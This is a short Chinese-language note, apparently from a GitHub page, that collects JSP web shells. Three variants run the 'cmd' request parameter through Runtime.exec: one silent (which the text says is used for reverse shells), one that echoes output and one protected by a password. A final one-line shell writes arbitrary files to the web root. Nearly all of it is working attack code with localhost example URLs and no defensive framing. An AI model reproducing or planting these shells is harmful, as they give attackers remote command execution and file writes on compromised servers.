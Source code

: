 #### 无回显

http://localhost:8003/index.jsp?cmd=whoami

不会回显执行的结果只能在后台打印一个地址，常用来反弹shell

```
 <%
    Process process = Runtime.getRuntime().exec(request.getParameter("cmd"));
%>

```

#### 有回显

```
  <%
    Process process = Runtime.getRuntime().exec(request.getParameter("cmd"));
//    System.out.println(process);
    InputStream inputStream = process.getInputStream();
    BufferedReader bufferedReader = new BufferedReader(new InputStreamReader(inputStream));
    String line;
    while ((line = bufferedReader.readLine()) != null){
      response.getWriter().println(line);
    }
  %>

```

#### 有密码有回显

```
  <%
    if ("password".equals(request.getParameter("pass"))){
      Process process = Runtime.getRuntime().exec(request.getParameter("cmd"));
//    System.out.println(process);
      InputStream inputStream = process.getInputStream();
      BufferedReader bufferedReader = new BufferedReader(new InputStreamReader(inputStream));
      String line;
      while ((line = bufferedReader.readLine()) != null){
        response.getWriter().println(line);
      }
    }
  %>

```

http://localhost:8003/index.jsp?pass=password&cmd=whoami

```
##JSP：
<%if(request.getParameter("f")!=null)(newjava.io.FileOutputStream (application.getRealPath("\\")+request.getParameter("f"))).write (request.getParameter("t").getBytes());%> 
提交客户端 
<form action="" method="post"><textareaname="t"></textarea><br/><input type="submit"value="提交"></form>

```

